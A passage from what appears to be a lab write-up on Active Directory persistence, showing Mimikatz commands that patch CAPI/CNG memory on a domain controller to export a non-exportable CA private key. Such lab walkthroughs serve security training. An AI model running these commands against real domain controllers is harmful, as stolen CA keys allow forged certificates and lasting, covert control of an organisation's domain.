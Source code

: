 We can see that there is a CA certificate on the DC. We can also note that some of these certificates were set not to allow us to export the key. Without this private key, we would not be able to generate new certificates. Luckily, Mimikatz allows us to patch memory to make these keys exportable.

**Victim(mimikatz) - THMDC**

```
privilege::debug
crypto::capi
crypto::cng
crypto::certificates /systemstore:local_machine /export
```

<figure><img src="../../.gitbook/assets/image (4) (1) (8).png" alt=""><figcaption></figcaption></figure>

**Victim(cmd) - THMDC**

```
dir
```

<figure><img src="../../.gitbook/assets/image (9) (1) (3) (1) (1).png" alt=""><figcaption></figcaption></figure>
